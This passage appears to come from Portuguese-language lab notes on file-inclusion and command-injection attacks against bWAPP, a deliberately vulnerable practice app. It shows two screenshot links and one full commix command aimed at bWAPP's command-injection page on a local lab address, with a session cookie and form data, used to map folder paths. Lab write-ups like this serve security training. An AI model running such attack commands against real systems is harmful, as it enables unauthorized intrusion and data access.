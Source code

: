 ![LFI](./imgs/LFI-RFI-02.png)  
![LFI](./imgs/LFI-RFI-03.png)

**Utilizando Command Injection no Commix para identificar os caminhos das pastas:**  
`commix -u http://10.0.2.15/bWAPP/commandi.php --cookie='PHPSESSID=e8rhpiohmnt06oup6ss3sahh04; security_level=0' --data='target=10.0.2.15&form=submit'`  
